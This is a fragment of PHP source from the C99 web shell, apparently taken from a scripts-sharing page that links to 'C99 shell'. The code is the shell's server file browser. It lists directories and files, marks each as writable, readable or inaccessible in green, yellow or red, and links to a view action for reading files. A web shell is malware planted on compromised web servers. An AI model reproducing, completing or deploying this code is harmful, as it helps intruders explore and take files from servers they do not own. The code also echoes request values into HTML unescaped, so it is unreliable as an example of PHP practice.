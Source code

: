   echo("&lt;/h4&gt;");
  echo("&lt;table&gt;");
  echo("&lt;th&gt;File Name&lt;th&gt;File Size&lt;/th&gt;");
  if ($handle = opendir($dir)) {
    while (false != ($link = readdir($handle))) {
      if (is_dir($dir . '/' . $link)){
        $file = array();
        if(is_writable($dir . '/' . $link)){$file['perm']='write';}
        elseif(is_readable($dir . '/' . $link)){$file['perm']='read';}
        else{$file['perm']='none';}
        switch($file['perm']){
          case "write": @$file['link'] = "&lt;a href='?dir=$dir/$link'&gt;&lt;font color='green'&gt;$link&lt;/font&gt;&lt;/a&gt;"; break;
          case "read": @$file['link'] = "&lt;a href='?dir=$dir/$link'&gt;&lt;font color='yellow'&gt;$link&lt;/font&gt;&lt;/a&gt;"; break;
          case "none": @$file['link'] = "&lt;a href='?dir=$dir/$link'&gt;&lt;font color='red'&gt;$link&lt;/font&gt;&lt;/a&gt;"; break;
          default: @$file['link'] = "&lt;a href='?dir=$dir/$link'&gt;&lt;font color='red'&gt;$link&lt;/font&gt;&lt;/a&gt;"; break;
        }
        @$file['icon'] = "folder";
        if($_SERVER['QUERY_STRING']){$folder = "&lt;img src='?" . $_SERVER['QUERY_STRING'] . "&img=" . $file['icon']. "'&gt; " . $file['link'];}
        else{$folder = "&lt;img src='?img=" . $file['icon']. "'&gt; " . $file['link'];}
        array_push($folders, $folder);
      }
      else{
        $file = array();
        $ext = strtolower(end(explode(".", $link)));
        if(!$file['size'] = nicesize(@filesize($dir . '/' . $link))){
          $file['size'] = "0B";
        }
        if(is_writable($dir . '/' . $link)){$file['perm']='write';}
        elseif(is_readable($dir . '/' . $link)){$file['perm']='read';}
        else{$file['perm']='none';}
        switch($file['perm']){
          case "write": @$file['link'] = "&lt;a href='?act=view&f=" . $link . "&dir=$dir'&gt;&lt;font color='green'&gt;$link&lt;/font&gt;&lt;/a&gt;"; break;
          case "read": @$file['link'] = "&lt;a href='?act=view&f=" . $link . "&dir=$dir'&gt;&lt;font color='yellow'&gt;$link&lt;/font&gt;&lt;/a&gt;"; break;
          case "none": @$file['link'] = "&lt;a href='?act=view&f=" . $link . "&dir=$dir'&gt;&lt;font color='red'&gt;$link&lt;/font&gt;&lt;/a&gt;"; break;
          default: @$file['link'] = "&lt;a href='?act=view&f=" . $link . "&dir=$dir'&gt;&lt;font color='red'&gt;$link&lt;/a&gt;&lt;/font&gt;"; break;
        }
        switch($ext){
        case "exe": case "com": case "jar": case "": $file['icon']="binary"; break;
        case "jpg": case "gif": case "png": case "bmp": $file['icon']="image"; break;
        case "zip": case "tar": case "rar": case "gz": case "cab": case "bz2": case "gzip": $file['icon']="compressed"; break;
        case "txt": case "doc": case "pdf": case "htm": case "html": case "rtf": $file['icon']="text"; break;
        case "wav": case "mp3": case "mp4": case "wma": $file['icon']="sound"; break;
        case "js": case "vbs": case "c": case "h": case "sh": case "pl": case "py": case "php": case "h": $file['icon']="script"; break;
        default: $file['icon'] = "unknown"; break;
        }
        if($_SERVER['QUERY_STRING']){$file = "&lt;tr&gt;&lt;td&gt;&lt;img src='?" . $_SERVER['QUERY_STRING'] . "&img=" . $file['icon']. "' height='18' width='18'&gt; " . $file['link'] . "&lt;/td&gt;&lt;td&gt;" . $file['size'] . "&lt;/td&gt;&lt;/tr&gt;\n";}
        else{$file = "&lt;tr&gt;&lt;td&gt;&lt;img src='?img=" . $file['icon']. "' height='18' width='18'&gt; " . $file['link'] . "&lt;td&gt;" . $file['size'] . "&lt;/td&gt;&lt;/tr&gt;\n";}
        array_push($files, $file);
      }

 [1]: http://hackingscripts.com/c99-shell/ "C99 shell"